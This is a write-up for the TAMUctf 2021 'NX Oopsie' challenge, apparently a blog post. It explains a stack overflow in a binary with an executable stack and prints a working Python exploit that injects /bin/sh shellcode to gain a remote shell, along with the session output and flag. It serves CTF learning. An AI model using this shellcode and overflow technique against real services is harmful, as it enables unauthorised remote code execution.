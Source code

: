```yaml
---
title: "TAMUctf 2021 NX Oopsie Solution"
slug: "nx-oopsie-writeup"
date: "2021-04-26 11:03:00.000000"
author_name: "Javantea"
author_email: "jvoss@altsci.com"
draft: false
toc: false
images:
---
```


TAMUctf 2021
[NX Oopsie](https://ctftime.org/task/15795) - 100 points

>    Attack this binary and get the flag!
>    [nx-oopsie](https://tamuctf.com/static-files/nx-oopsie)
>    `openssl s_client -connect tamuctf.com:443 -servername nx-oopsie -quiet`

I spent way too much time on this problem, stopping to work on other problems and coming back time and time again. This is a simple stack overflow on x86-64 with NX and PIE. How do you exploit it? It uses [musl libc](https://www.musl-libc.org/) so running it on a normal Linux machine doesn't work. The breakthrough came when I realized that they were giving `RBP` and had a think. There was no way to find an address in the executable or libc. How then? How do you exploit if you can't ROP? The answer is in the binary. 

```
objdump -x nx-oopsie

nx-oopsie:     file format elf64-x86-64
nx-oopsie
architecture: i386:x86-64, flags 0x00000150:
HAS_SYMS, DYNAMIC, D_PAGED
start address 0x0000000000001080

Program Header:
    PHDR off    0x0000000000000040 vaddr 0x0000000000000040 paddr 0x0000000000000040 align 2**3
         filesz 0x0000000000000230 memsz 0x0000000000000230 flags r--
  INTERP off    0x0000000000000270 vaddr 0x0000000000000270 paddr 0x0000000000000270 align 2**0
         filesz 0x0000000000000019 memsz 0x0000000000000019 flags r--
    LOAD off    0x0000000000000000 vaddr 0x0000000000000000 paddr 0x0000000000000000 align 2**12
         filesz 0x0000000000000608 memsz 0x0000000000000608 flags r--
    LOAD off    0x0000000000001000 vaddr 0x0000000000001000 paddr 0x0000000000001000 align 2**12
         filesz 0x0000000000000309 memsz 0x0000000000000309 flags r-x
    LOAD off    0x0000000000002000 vaddr 0x0000000000002000 paddr 0x0000000000002000 align 2**12
         filesz 0x000000000000014c memsz 0x000000000000014c flags r--
    LOAD off    0x0000000000002de0 vaddr 0x0000000000003de0 paddr 0x0000000000003de0 align 2**12
         filesz 0x0000000000000228 memsz 0x0000000000000290 flags rw-
 DYNAMIC off    0x0000000000002e10 vaddr 0x0000000000003e10 paddr 0x0000000000003e10 align 2**3
         filesz 0x0000000000000180 memsz 0x0000000000000180 flags rw-
EH_FRAME off    0x000000000000205c vaddr 0x000000000000205c paddr 0x000000000000205c align 2**2
         filesz 0x0000000000000034 memsz 0x0000000000000034 flags r--
   STACK off    0x0000000000000000 vaddr 0x0000000000000000 paddr 0x0000000000000000 align 2**4
         filesz 0x0000000000000000 memsz 0x0000000000000000 flags rwx
   RELRO off    0x0000000000002de0 vaddr 0x0000000000003de0 paddr 0x0000000000003de0 align 2**0
         filesz 0x0000000000000220 memsz 0x0000000000000220 flags r--

Dynamic Section:
  NEEDED               libc.musl-x86_64.so.1
```

Notice anything? The stack is executable. We're back to 200X style exploitation of buffer overflows. The only complication is that we have to use SSL and the stack address they gave us. Lucky for us, that is easy in 2021. Below is my working exploit and it's output as I put it into my exploits. I used shellcode from [Shell Storm](http://shell-storm.org/shellcode/files/shellcode-806.php) as seen in the exploit.

```python
#!/usr/bin/env python3
"""
Nx-Oopsie Solution
by Javantea
Apr 25, 2021

http://shell-storm.org/shellcode/files/shellcode-806.php
"""
import ssl
import socket
import struct

sc = b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

ss = ssl.wrap_socket(s)
ss.server_hostname = 'nx-oopsie'
ss.connect(('tamuctf.com', 443))
value = ss.recv(1024)
b"Psst! I heard you might need this...: 0x7fffc19a9dd0\nWhat's your name? "
print(value)

addr = int(value[40:value.index(b"\n")], 16)

sc_addr = addr - 0x40

pl = (0x48 - len(sc))
padding = b'A' * pl
if pl < 0:
    print("Warning: Shellcode is too long. make it smaller.")
name = sc + padding + struct.pack('<Q', sc_addr) + b'\n'

ss.send(name)
print("Sent payload", name)
#rr = ss.recv(1024)
#print("Received data 1", rr)

ss.send(b'ls\n')
rr = ss.recv(1024)
print("Received data 2", rr)
ss.send(b'df\n')
rr = ss.recv(1024)
print("Received data 3", rr)
ss.send(b'echo arf arf arf\n')
rr = ss.recv(1024)
print("Received data 4", rr)
ss.send(b'cat flag.txt\n')
rr = ss.recv(1024)
print("Received data 5", rr)

while rr != b'':
    rr = ss.recv(1024)
    print("Received data 6", rr)

ss.close()

"""
python3 nx-oopsie1.py 
b"Psst! I heard you might need this...: 0x7fffee665ef0\nWhat's your name? "
Sent payload b'1\xc0H\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xffH\xf7\xdbST_\x99RWT^\xb0;\x0f\x05AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xb0^f\xee\xff\x7f\x00\x00\n'
Received data 2 b'flag.txt\n'
Received data 3 b'Filesystem           1K-blocks      Used Available Use% Mounted on\n'
Received data 4 b'overlay               48884348   9350568  36896060  20% /\ntmpfs                    65536         0     65536   0% /dev\ntmpfs                 32984124         0  32984124   0% /sys/fs/cgroup\nshm                      65536         0     65536   0% /dev/shm\n/dev/sda1             48884348   9350568  36896060  20% /etc/resolv.conf\n/dev/sda1             48884348   9350568  36896060  20% /etc/hostname\n/dev/sda1             48884348   9350568  36896060  20% /etc/hosts\ntmpfs                 32984124         0  32984124   0% /proc/acpi\ntmpfs                    65536         0     65536   0% /proc/kcore\ntmpfs                    65536         0     65536   0% /proc/keys\ntmpfs                    65536         0     65536   0% /proc/timer_list\ntmpfs                    65536         0     65536   0% /proc/sched_debug\ntmpfs                 32984124         0  32984124   0% /proc/scsi\ntmpfs                 32984124         0  32984124   0% /sys/firmware\n'
Received data 5 b'arf arf arf\n'
Received data 6 b'gigem{0oP5_al1_3xeCu7aB1e}\n'
^CTraceback (most recent call last):
  File "nx-oopsie1.py", line 45, in <module>
    rr = ss.recv(1024)
  File "/usr/lib/python3.8/ssl.py", line 1226, in recv
    return self.read(buflen)
  File "/usr/lib/python3.8/ssl.py", line 1101, in read
    return self._sslobj.read(len)
KeyboardInterrupt


Flag received is gigem{0oP5_al1_3xeCu7aB1e}
"""

```

The flag is `gigem{0oP5_al1_3xeCu7aB1e}`.


